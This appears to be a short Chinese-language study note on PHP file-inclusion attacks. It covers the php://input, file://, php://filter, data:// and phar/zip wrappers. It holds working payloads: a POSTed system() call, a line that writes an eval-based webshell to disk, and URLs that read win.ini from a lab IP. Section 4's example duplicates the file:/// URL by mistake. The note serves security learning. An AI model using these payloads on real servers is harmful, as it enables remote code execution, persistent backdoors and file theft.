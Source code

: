 ### 1、文件包含基础
![[Pasted image 20231221150356.png]]
### 2、php://input协议
```
url?page=php://input
post参数:
<?php system(whomi);?>
or
<?php fputs(fopen('aacc.php','w'),'<?php @eval($_POST[11]);?>')?>
```
![[Pasted image 20231221152617.png]]

![[Pasted image 20231221150922.png]]

### 3、file:///协议 ---------读取文件
```
http://100.100.100.29/baohan/inde.php?page=file:///c:/windows/win.ini
```
### 4、php://filter协议 --------------------- 读取文件
最常用的一个伪协议，一般用来进行任意文件读取
用法：?filename=php://filter/convert.base64-encode/resource=xxx.php
使用条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include
```
http://100.100.100.29/baohan/inde.php?page=file:///c:/windows/win.ini
```
### 5、data://伪协议
数据流封装器，和php://相似都是利用流的概念，将原本的include的文件流重新定向到
了用户可控制的输入流中，简单来说就是执行文件的包含方法包含来你的输入流，通过你
输入payload来实现目的。data://[读取文件] 和 php伪协议的input类似，碰到file_get_contents()来用
例：data://text/plain;base64,
![[Pasted image 20231221160246.png]]
### 6、phar，zip伪协议
![[Pasted image 20231221160321.png]]